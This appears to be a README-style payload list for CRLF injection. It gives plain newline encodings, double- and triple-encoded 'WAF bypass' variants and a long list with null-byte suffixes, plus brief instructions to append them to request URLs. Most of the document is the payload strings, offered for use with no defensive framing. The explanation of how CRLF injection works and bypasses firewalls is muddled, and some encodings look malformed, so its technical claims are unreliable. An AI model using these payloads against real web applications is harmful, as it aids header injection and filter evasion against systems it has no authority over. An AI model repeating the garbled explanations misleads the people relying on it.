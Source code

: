 # CRLF-Payloads

Here are some examples of how to use CRLF injection payloads:

* **Normal payloads:**
    * %0D%0A
    * \r\n
    * \n
    * %0A
    * \r
    * %0D

These payloads can be used to inject a newline character into a web request, which can then be used to bypass certain security controls. For example, a CRLF injection payload could be used to bypass a web application firewall (WAF) that is configured to block requests that contain newline characters.

* **WAF bypass payloads:**
    * %250D%250A
    * %250A
    * %250D
    * %25250D%25250A
    * %25250A
    * %25250D

These payloads can be used to bypass WAFs that are configured to block requests that contain certain characters, such as newline characters. For example, a WAF bypass payload could be used to inject a newline character into a web request, even if the WAF is configured to block requests that contain newline characters.

To use a CRLF injection payload, you can simply add the payload to the end of a web request. For example, if you are making a request to the URL `http://example.com/index.php`, you could add the payload `%0D%0A` to the end of the URL, like this:

`http://example.com/index.php%0D%0A`

When the web server receives the request, it will interpret the payload as a newline character and process the request accordingly. This could allow you to bypass certain security controls, such as WAFs.

More Payloads:

%0D%0A
\r\n
\n
%0A
\r
%0D
%250D%250A
%250A
%250D
%25250D%25250A
%25250A
%25250D
%0D%0A%00
\r\n\00
\n\00
%0A\00
\r\00
%0D\00
%250D%250A%2500
%250A%2500
%250D%2500
%25250D%25250A%252500
%25250A%252500
%25250D%252500
%0D%0A%2500
\r\n%2500
\n%2500
%0A%2500
\r%2500
%0D%2500
%250D%250A%252500
%250A%252500
%250D%252500
%25250D%25250A%25252500
%25250A%25252500
%25250D%25252500
%0D%0A%25%300
\r\n%25%300
\n%25%300
%0A%25%300
\r%25%300
%0D%25%300
%250D%250A%25%25300
%250A%25%25300
%250D%25%25300
%25250D%25250A%25%2525300
%25250A%25%2525300
%25250D%25%2525300
%0D%0A%2525300
\r\n%2525300
